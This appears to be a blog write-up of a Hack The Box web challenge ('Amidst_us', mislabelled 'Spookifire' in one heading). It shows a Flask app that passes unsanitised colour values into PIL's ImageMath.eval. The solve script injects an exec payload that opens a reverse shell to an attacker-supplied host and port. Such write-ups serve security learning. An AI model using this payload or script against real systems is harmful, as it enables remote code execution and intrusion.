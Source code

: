 ```yaml
---
title: Amidst_us
date: 2023-12-09 15:53:16 +0800
categories: [Hackthebox-Challenges, Amidst_us]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="/assets/global/banner.png" alt="banner image">

## Spookifire is a python flask chalenge on Hackthebox

### Description:

this challenge takes an input an image value as base64 encoded and array of colors,

the problem is colors being passed to `eval` function without sanitizing.

### Source code:
<a href='https://mega.nz/file/aWARwZiS#FrD6HVAqXOlMduZKwF489ocscDsDjxSu0xOfyBDvvoE'>Download source code</a>

*zip password: `hackthebox`*


### Vulnerable code:
```python
from PIL import Image, ImageMath
# it's using PIL module to generate a new image but the problem is the `ImageMath.eval()` can execute python code.
```

```python
alpha = ImageMath.eval( # the vulnerable function
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}), <== here you can see that color being passed without sanitizing to eval().
					difference1(green_band, {color[1]})
					),
					difference1(blue_band, {color[2]})

				),
			)''',
		)

```

### Solve:

```python


import requests
import base64
import argparse

def send_post_request(image_path, local_url, ip):
    with open(image_path, "rb") as img_file:
        image_data = img_file.read()
        image_base64 = base64.b64encode(image_data).decode('utf-8')

    url = 'http://localhost:1337/api/alphafy'
    payload = "exec('import os,pty,socket;s=socket.socket();s.connect((\"" + local_url + "\"," + ip + "));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")')"
    print(payload)
    payload = {
        "image": image_base64,
        "background": [
            payload,
            2,
            162
        ]
    }

    headers = {
        'Content-Type': 'application/json',
    }

    response = requests.post(url, json=payload, headers=headers)

    if response.status_code == 200:
        print("Done!, wait don't tell me that you didn't receive your fucking reverse shell")
        print("Response:", response.text)
    else:
        print("This shit didn't work")
        print("Status Code:", response.status_code)
        print("Response:", response.text)


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Send a POST request with an image base64 payload.')
    parser.add_argument('image_path', help='Path to the image file')
    parser.add_argument('local_url', help='revshell url')
    parser.add_argument('port', help='revshell port')
    args = parser.parse_args()

    send_post_request(args.image_path, args.local_url, args.port)


```







